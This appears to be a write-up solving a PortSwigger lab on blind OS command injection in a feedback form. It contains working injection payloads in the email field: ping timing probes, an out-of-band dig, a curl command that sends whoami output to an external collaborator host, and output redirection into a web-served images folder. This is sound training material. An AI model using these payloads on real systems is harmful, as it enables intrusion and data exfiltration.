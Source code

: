 # [Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

```path
/var/www/images/
```

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.

## Scan

- burpsuite scanner detected:
  - `OS command injection` (decoded body):

    ```http
    POST /feedback/submit HTTP/1.1

    csrf=QdYdqzSGm3lFDUxAZ5UCx32NoAg4cWE0&name=test&email=test@test.test|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1&subject=test@test.test&message=test
    ```

    - The application took 20959 milliseconds to respond to the request

  - `SQL injection`

## manual

oob interaction:

```http
POST /feedback/submit HTTP/1.1

csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||dig+collaborator||
&subject=a&message=a
```

check collaborator:

![collaborator.png](./../img/lab-2-collaborator.png)

## Solutions

Solution 1:

  ```http
  POST /feedback/submit HTTP/1.1

  csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||curl+zqt5ux98hv6q0gi102vxrr0jmas1gr4g.oastify.com+-d+`whoami`||
  &subject=a&message=a
  ```

- request to collaborator:

  ```http
  POST / HTTP/1.1

  peter-7CGZvJ
  ```

but the lab is still marked as not solved.

Solutions 2:

  ```http
  POST /feedback/submit HTTP/1.1

  csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||echo+`whoami`+>+/var/www/images/test.txt||&subject=a&message=a
  ```

  ```http
  GET /image?filename=test.txt HTTP/1.1

  HTTP/1.1 200 OK

  peter-7CGZvJ
  ```

solved
